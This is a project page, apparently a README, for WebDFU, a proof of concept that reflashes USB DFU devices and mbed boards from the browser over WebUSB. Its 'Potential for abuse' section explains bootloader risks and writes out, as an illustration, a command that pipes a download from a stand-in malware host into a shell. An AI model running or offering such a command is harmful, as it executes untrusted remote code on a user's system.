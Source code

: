 ```yaml
---
title: WebDFU
subtitle: Device firmware updates in the browser using WebUSB
excerpt: >
  A demo using web pages to reprogram USB-attached devices without installing any native plugins.
---
```

## Overview
WebDFU is a proof-of-concept using [WebUSB](https://wicg.github.io/webusb/) to reprogram [USB DFU](http://wiki.openmoko.org/wiki/USB_DFU_-_The_USB_Device_Firmware_Upgrade_standard) class devices from the browser. It supports USB DFU 1.1 and [DfuSe 1.1a](http://www.st.com/en/development-tools/stsw-stm32080.html) bootloaders and mbed boards with [custom interface firmware](https://github.com/devanlai/DAPLink).
It does not require the user to install browser plugins or proxy agents that could execute arbitrary code.

Note: WebUSB is currently a draft standard that is only implemented by Google Chrome.

## Potential for abuse
Putting the words "web" and "firmware" in the same sentence is likely to provoke a negative gut reaction from security-minded folks, so before we go any further, let's address this.

Any device with an unsecured bootloader that allows unrestricted access to it can be compromised if a malicious party gets access to it even once.
Depending on the nature of the bootloader and the malware, it may be irreversible and even undetectable.
This risk is not unique to firmware updates delivered from the browser.
Here's a non-comprehensive list of ways you can inadvertently compromise a USB device without involving WebUSB:
  
  * Leaving your device unattended in a public place, where anyone could pick it up, reflash it, and replace it.
  * Downloading and manually installing a malicious firmware update from a compromised website without first verifying the checksum.
  * Running `curl https://get.malware.example/ | sh` and subsequently plugging your device in.

We should strive to phase out devices that are vulnerable to these kinds of attacks, but in the meantime, there are millions of existing devices out in the wild that WebUSB opens up access to use for benevolent purposes.

## Applications

### Standalone firmware updates in the browser
The simplest application for WebUSB and firmware updates is to implement [dfu-util](http://dfu-util.sourceforge.net/) in a cross-platform browser application. dfu-util uses libusb to directly schedule the USB control transfers needed to execute a USB DFU firmware update. Since WebUSB offers a similar degree of low-level transfer-oriented API access, it's a straightforward exercise to port the necessary parts of dfu-util from C to javascript.

This could be used to build a rich firmware updater that can intelligently display release notes and update the device without installing any native software.

A live demo of a dfu-util-like site can be viewed online [here](https://devanlai.github.io/webdfu/dfu-util/).

The demo has been successfully tested on Linux with USB DFU 1.1 and USB DfuSe 1.1a devices. It should work on macOS and Windows as well, but WebUSB support is still evolving, so there may be issues.

### Online IDEs with hardware access
Sites such as [mbed.org](https://developer.mbed.org), [codebender](https://codebender.cc), and [Arduino Create](https://create.arduino.cc/) show that there are real use cases for online IDEs for firmware.

However, there is a critical gap in-between writing code in the browser and flashing that code onto a development board.
In the case of mbed, the user has to manually drag and drop the compiled firmware onto an emulated USB drive that then reprograms the board. For codebender and Arduino Create, the user must install special browser plugins or native software to allow the website to access the board.

With WebUSB, it's possible for the IDE to directly talk to the development board, creating a first class, seamless experience comparable to a native IDE, while retaining the benefits of automatic updates, cloud storage, and social code sharing.

Alas, as the mbed IDE is still closed source, we'll have to settle for something with a few more seams than we'd like.

One of the defining characteristics of mbed development boards is that they have an additional interface microcontroller that handles reprogramming the actual target chip from USB. It would be great if we could use WebUSB to talk to that interface microcontroller and tell it to reprogram the target.

Unfortunately, the programming is handled by repurposing USB mass storage and USB HID, both of which already have standard operating system drivers that WebUSB won't try to mess with. 

Fortunately for us, the firmware for most of those interface chips _is_ open-source as part of the [DAPLink](https://developer.mbed.org/handbook/DAPLink) project, so we can add a custom USB interface just for WebUSB. In this particular case, it was easiest for me to add [another USB DFU interface](https://github.com/devanlai/DAPLink), so the existing WebUSB DFU work above also works here.

So we've got a website that can talk to USB DFU devices and interface firmware that can reprogram the target chip using USB DFU, what else do we need? I'd love to add a free, cloud-hosted IDE, but I don't have the time or money to build one of those. Luckily, while the mbed IDE isn't open-source, you can leverage their online compiler through their [remote compilation API](https://developer.mbed.org/handbook/Compile-API) to build projects online.

The very rough live demo for all of this can be accessed [here](https://devanlai.github.io/webdfu/mbed-download/).

## Sources on GitHub

* WebUSB demo code: [webdfu](https://github.com/devanlai/webdfu)
* DAPLink with DFU and WebUSB: [daplink](https://github.com/devanlai/DAPLink)

## Future work

While it was expedient to add USB DFU to the DAPLink, there's no reason why we couldn't add another USB interface that provides full access to the debugging capabilities already present in the DAPLink firmware.

I'd like to extend it so that it's possible to set breakpoints and inspect peripheral registers on my development boards, all from an in-browser IDE that requires zero-installation.